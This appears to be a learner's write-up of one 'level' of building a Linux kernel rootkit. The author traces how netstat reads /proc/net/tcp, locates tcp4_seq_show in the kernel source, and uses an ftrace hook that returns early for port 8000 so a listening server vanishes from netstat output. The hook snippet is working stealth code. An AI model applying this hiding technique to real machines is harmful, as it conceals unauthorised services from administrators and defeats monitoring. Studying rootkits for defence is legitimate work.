 # level 3

from strace'ing netstat, it seems that the data comes from reading and parsing /proc/net/tcp file.

```
cat /proc/net/tcp
  sl  local_address rem_address   st tx_queue rx_queue tr tm->when retrnsmt   uid  timeout inode                                                     
   0: 00000000:1F40 00000000:0000 0A 00000000:00000000 00:00000000 00000000  1000        0 251662 1 0000000000000000 100 0 0 10 0                    
   1: 0100007F:0277 00000000:0000 0A 00000000:00000000 00:00000000 00000000     0        0 40139 1 0000000000000000 100 0 0 10 0                     
   2: 3500007F:0035 00000000:0000 0A 00000000:00000000 00:00000000 00000000   101        0 36619 1 0000000000000000 100 0 0 10 5                     
   3: 803AA8C0:D062 95F1BDCE:01BB 01 00000000:00000000 00:00000000 00000000  1000        0 186237 1 0000000000000000 20 4 28 10 -1                   
   4: 803AA8C0:C0E6 B3AF2734:01BB 01 00000000:00000000 02:000051DD 00000000  1000        0 69620 2 0000000000000000 20 4 28 10 -1                    
   5: 803AA8C0:DE52 1121E32C:01BB 08 00000000:0000004E 02:00001147 00000000  1000        0 88197 2 0000000000000000 68 4 0 10 -1                     
   6: 803AA8C0:8EFE EFED7522:01BB 01 00000000:00000000 00:00000000 00000000  1000        0 257294 1 0000000000000000 22 4 30 10 -1

```

this^ is while having a python httpserver on port 8000.

```
openat(AT_FDCWD, "/proc/net/tcp", O_RDONLY) = 3
read(3, "  sl  local_address rem_address "..., 4096) = 1050

```

I can think of an option of how to solve this from here with syscall hooking:

hook the read syscall, and check if the opened file is /proc/net/tcp. if it is, remove the server line from the output.

- this will be complicated because if we hook the read function we only have an fd, not filename, and we will have to backtrack what the filename is.
- checking all the read outputs without checking if its relevant to us might have performance issues since read is a very common syscall in linux



both of the above options seem complicated to implement.

[this blog](https://xcellerator.github.io/posts/linux_rootkits_08/) reminded me that /proc is a virtual FS and not a real one, which means every read from it is actually outputted from a function in the kernel.

```bash
cat /proc/net/tcp
sl  local_address rem_address   st tx_queue rx_queue tr tm->when retrnsmt   uid  timeout inode ....
										.....snipped.....
```

I saw this print format, and decided to grep it in the linux kernel sources.

```bash
 grep rem_address -irnI .
 /net/ipv4/tcp_ipv4.c:2655:             seq_puts(seq, "  sl  local_address rem_address   st tx_queue "
./net/ipv4/ping.c:1146:         seq_puts(seq, "  sl  local_address rem_address   st tx_queue "
./net/ipv4/raw.c:1073:          seq_printf(seq, "  sl  local_address rem_address   st tx_queue "
./net/ipv4/udp.c:3094:          seq_puts(seq, "   sl  local_address rem_address   st tx_queue "

```

seems like the relevant one is /net/ipv4/tcp_ipv4.c

```c
static int tcp4_seq_show(struct seq_file *seq, void *v)
{
	struct tcp_iter_state *st;
	struct sock *sk = v;

	seq_setwidth(seq, TMPSZ - 1);
	if (v == SEQ_START_TOKEN) {
		seq_puts(seq, "  sl  local_address rem_address   st tx_queue "
			   "rx_queue tr tm->when retrnsmt   uid  timeout "
			   "inode");
		goto out;
	}
	st = seq->private;

	if (sk->sk_state == TCP_TIME_WAIT)
		get_timewait4_sock(v, seq, st->num);
	else if (sk->sk_state == TCP_NEW_SYN_RECV)
		get_openreq4(v, seq, st->num);
	else
		get_tcp4_sock(v, seq, st->num);
out:
	seq_pad(seq, '\n');
	return 0;
}
```

seems like this function is called for every line of output. if I hook it and make sure it doesn't print out the line with my chosen port, then I can effectively hide it.

```c
static void get_tcp4_sock(struct sock *sk, struct seq_file *f, int i)
{
	int timer_active;
	unsigned long timer_expires;
	const struct tcp_sock *tp = tcp_sk(sk);
	const struct inet_connection_sock *icsk = inet_csk(sk);
	const struct inet_sock *inet = inet_sk(sk);
	const struct fastopen_queue *fastopenq = &icsk->icsk_accept_queue.fastopenq;
	__e32 dest = inet->inet_daddr;
	__be32 src = inet->inet_rcv_saddr;
	__u16 destp = ntohs(inet->inet_dport);
	__u16 srcp = ntohs(inet->inet_sport);
	int rx_queue;
	int state;

	if (icsk->icsk_pending == ICSK_TIME_RETRANS ||
	    icsk->icsk_pending == ICSK_TIME_REO_TIMEOUT ||
	    icsk->icsk_pending == ICSK_TIME_LOSS_PROBE) {
		timer_active	= 1;
		timer_expires	= icsk->icsk_timeout;
	} else if (icsk->icsk_pending == ICSK_TIME_PROBE0) {
		timer_active	= 4;
		timer_expires	= icsk->icsk_timeout;
	} else if (timer_pending(&sk->sk_timer)) {
		timer_active	= 2;
		timer_expires	= sk->sk_timer.expires;
	} else {
		timer_active	= 0;
		timer_expires = jiffies;
	}

	state = inet_sk_state_load(sk);
	if (state == TCP_LISTEN)
		rx_queue = READ_ONCE(sk->sk_ack_backlog);
	else
		/* Because we don't lock the socket,
		 * we might find a transient negative value.
		 */
		rx_queue = max_t(int, READ_ONCE(tp->rcv_nxt) -
				      READ_ONCE(tp->copied_seq), 0);

	seq_printf(f, "%4d: %08X:%04X %08X:%04X %02X %08X:%08X %02X:%08lX "
			"%08X %5u %8d %lu %d %pK %lu %lu %u %u %d",
		i, src, srcp, dest, destp, state,
		READ_ONCE(tp->write_seq) - tp->snd_una,
		rx_queue,
		timer_active,
		jiffies_delta_to_clock_t(timer_expires - jiffies),
		icsk->icsk_retransmits,
		from_kuid_munged(seq_user_ns(f), sock_i_uid(sk)),
		icsk->icsk_probes_out,
		sock_i_ino(sk),
		refcount_read(&sk->sk_refcnt), sk,
		jiffies_to_clock_t(icsk->icsk_rto),
		jiffies_to_clock_t(icsk->icsk_ack.ato),
		(icsk->icsk_ack.quick << 1) | inet_csk_in_pingpong_mode(sk),
		tcp_snd_cwnd(tp),
		state == TCP_LISTEN ?
		    fastopenq->max_qlen :
		    (tcp_in_initial_slowstart(tp) ? -1 : tp->snd_ssthresh));
}
```

from here ^ I can see that it is going to be pretty easy, we just need to create an inet_sock from the socket buffer like here:

```c
	const struct inet_sock *inet = inet_sk(sk);
	if(srcp ==  my_rootkit_port){
        //do_bad_stuff
    }
```

and hook this logic before tcp4_seq_show output is called.



I will be using ftrace to hook the function. 
I wanted to use the helper module [this dude wrote](https://gist.github.com/xcellerator/ac2c039a6bbd7782106218298f5e5ac1#file-ftrace_helper-h), but it didn't go so well, because in my kernel the C api changed- mostly names of structs and enums- this was easy enough to fix, but also because he relies on kallsyms_lookup_name function being exported, which it isn't in my kernel, so I need to solve it.

This is mostly a technical issue since I already dealt with it in my lkm code, but I need to give it to the helper as well.

Perhaps I need to put it in a seperate header file and include it in both the module and the helper.

did it and now it works.



currently stuck in a situation where the process of hooking with ftrace somehow crashes the kernel, and i'm unable to debug it properly.

I should properly step up my debug game- printk is not enough and doesn't help at all in the case of crashes.





I've decided its better to write every step of the rootkit in a seperate module, for better debugging.

when I seperated it into 2 files it suddenly worked- no idea what happened here, but it seems I entered a rabbit hole of debugging it.

since all that these functions do is print stuff, I feel comfortable messsing them up and making them not print the line with my server. every call to the function is returning one line, and it returns 0 if it succeeds, so no harm in returning early and printing an empty line if it contains our intended source port.

```c
inet = inet_sk(sk);
	srcp = ntohs(inet->inet_sport);
	if (srcp == 8000){
		printk(KERN_INFO "netstat_rootkit: identified tcp traffic to port 8000\n");
		seq_puts(seq, "");
		return 0;
	}
	return old_tcp4_seq_show(seq, v);
```

now netstat -ant doesn't show my server.



and thats level 3 done.

b
